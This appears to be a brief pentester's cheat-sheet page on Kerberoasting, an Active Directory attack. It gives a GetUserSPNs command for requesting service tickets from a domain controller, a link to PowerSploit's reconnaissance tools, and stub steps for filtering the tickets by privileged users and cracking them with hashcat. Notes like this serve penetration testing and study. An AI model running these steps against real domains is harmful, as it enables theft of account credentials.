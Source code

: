 <!-- TITLE: Kerberoasting -->
<!-- SUBTITLE: A quick summary of Kerberoasting -->

# GetUserSpns
```
GetUserSPNs.exe - request -dc-ip <ip> fqdn/username -outputfile TGStickets
```

# Find High Privilege Users - Powerview
https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon

# Filter TGStickets with High Priv Users
# Crack with hashcat :(


